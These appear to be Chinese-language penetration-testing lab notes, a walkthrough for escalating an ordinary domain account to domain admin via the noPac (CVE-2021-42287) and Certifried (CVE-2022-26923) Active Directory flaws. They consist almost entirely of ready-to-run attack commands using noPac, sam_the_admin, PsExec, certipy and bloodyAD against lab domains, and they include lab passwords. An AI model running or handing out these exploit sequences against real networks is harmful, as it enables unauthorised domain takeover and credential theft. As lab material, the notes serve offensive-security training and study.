 

#### CVE-2021-42287（Nopac）

~~~python
#横向移动-域控提权-CVE-2021-42287
前提条件：一个域内普通账号
影响版本：Windows基本全系列
https://github.com/cube0x0/noPac
https://learn.microsoft.com/zh-cn/sysinternals/downloads/pstools
前置：
1、代理后：
修改Host绑定域名和IP
2、扫描探针：
noPac scan -domain god.org -user administrator -pass A@2019gaokaowar
3、利用连接：
noPac -domain god.org -user administrator -pass A@2019gaokaowar /dc owa.god.org /mAccount dadd /mPassword sdadasdsa /service cifs /ptt

PsExec \\owa.god.org cmd


https://github.com/WazeHell/sam-the-admin

python sam_the_admin.py god/'administrator:A@2019gaokaowar' -dc-ip 192.168.52.138 -shell
~~~

#### CVE-2022-26923

~~~
#横向移动-域控提权-CVE-2022-26923
当Windows系统的Active Directory证书服务（CS）在域上运行时，由于机器账号中的dNSHostName属性不具有唯一性，域中普通用户可以将其更改为高权限的域控机器账号属性，然后从Active Directory证书服务中获取域控机器账户的证书，导致域中普通用户权限提升为域管理员权限。
影响：Win8.1、Win10、Win11、WinServer2012R2、WinServer2016、WinServer2019、WinServer2022等版本
前提条件：
1、一个域内普通账号
2、域内存在证书服务器
Kali添加访问域内信息 /etc/hosts
192.168.1.15 xiaodi.local
192.168.1.15 xiaodi-WIN-3C7SS32SQ6R-CA
192.168.1.15 WIN-3C7SS32SQ6R.xiaodi.local

获取CA结构名和计算机名
certutil -config - -ping
域内信息
192.168.1.15
test Pass123
xiaodi-WIN-3C7SS32SQ6R-CA
WIN-3C7SS32SQ6R.xiaodi.local

1、申请低权限用户证书：
certipy req 'xiaodi.local/test:Pass123@WIN-3C7SS32SQ6R.xiaodi.local' -ca xiaodi-WIN-3C7SS32SQ6R-CA -template User -debug
2、检测证书
certipy auth -pfx test.pfx
3、创建一个机器账户：
python3 bloodyAD.py -d xiaodi.local -u test -p 'Pass123' --host 192.168.1.15 addComputer pwnmachine 'CVEPassword1234*'
4、设置机器账户属性(dNSHostName和DC一致)：
python3 bloodyAD.py -d xiaodi.local -u test -p 'Pass123' --host 192.168.1.15 setAttribute 'CN=pwnmachine,CN=Computers,DC=xiaodi,DC=local' dNSHostName '["WIN-3C7SS32SQ6R.xiaodi.local"]'
5、再次申请证书：
certipy req 'xiaodi.local/pwnmachine$:CVEPassword1234*@192.168.1.15' -template Machine -dc-ip 192.168.1.15 -ca xiaodi-WIN-3C7SS32SQ6R-CA
6、检测证书：
certipy auth -pfx ./win-3c7ss32sq6r.pfx -dc-ip 192.168.1.15
~~~